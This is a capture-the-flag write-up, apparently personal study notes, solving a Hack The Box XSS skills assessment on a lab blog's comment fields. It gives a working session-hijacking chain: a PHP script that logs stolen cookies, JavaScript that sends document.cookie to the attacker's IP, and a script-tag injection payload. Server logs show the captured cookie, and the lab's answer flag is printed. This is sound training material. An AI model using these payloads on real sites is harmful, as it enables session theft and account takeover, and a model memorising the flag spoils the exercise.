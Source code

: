 ```yaml
---
sticker: lucide//code
---
```

We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

   

![](https://academy.hackthebox.com/storage/modules/103/xss_skills_assessment_website.jpg)

Apply the skills you learned in this module to achieve the following:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag


### Identifying the vulnerable parameter
---

Once we go into the website we can see the following:

![](Pasted image 20250130180314.png)

If we go to the `Welcome to Security Blog` URL, we can see the following:

![](Pasted image 20250130180344.png)

At first glance, the comments section seems vulnerable to XSS, let's test some simple payload to check the behavior of the web application, we can set up the same PHP server form the [[CYBERSECURITY/Bug Bounty/HTB BUG BOUNTY HUNTER PATH/CROSS-SITE SCRIPTING (XSS)/XSS Attacks/Session Hijacking.md|Session Hijacking]] section:

```php
<?php  
if (isset($_GET['c'])) {  
$list = explode(";", $_GET['c']);  
foreach ($list as $key => $value) {  
$cookie = urldecode($value);  
$file = fopen("cookies.txt", "a+");  
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");  
fclose($file);  
}  
}  
?>
```

```js
document.location='http://10.10.15.141/index.php?c='+document.cookie;  
new Image().src='http://10.10.15.141/index.php?c='+document.cookie;
```

We can send the payloads in each section to check which one is vulnerable:

```js
"><script src=http://10.10.15.141/script.js></script>
```

![](Pasted image 20250130181138.png)

After a bit, we'll get the following in our server:

```
[Thu Jan 30 23:10:18 2025] PHP 8.3.15 Development Server (http://0.0.0.0:80) started
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 Accepted
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 [200]: GET /script.js
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 Closing
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 Accepted
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1738278667;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 Closing
[Thu Jan 30 23:11:09 2025] 10.129.147.238:37828 Accepted
[Thu Jan 30 23:11:14 2025] 10.129.147.238:37828 Closed without sending a request; it was probably just an unused speculative preconnection
[Thu Jan 30 23:11:14 2025] 10.129.147.238:37828 Closing
```

We got the flag: `HTB{cr055_5173_5cr1p71n6_n1nj4}`

![](Pasted image 20250130181248.png)

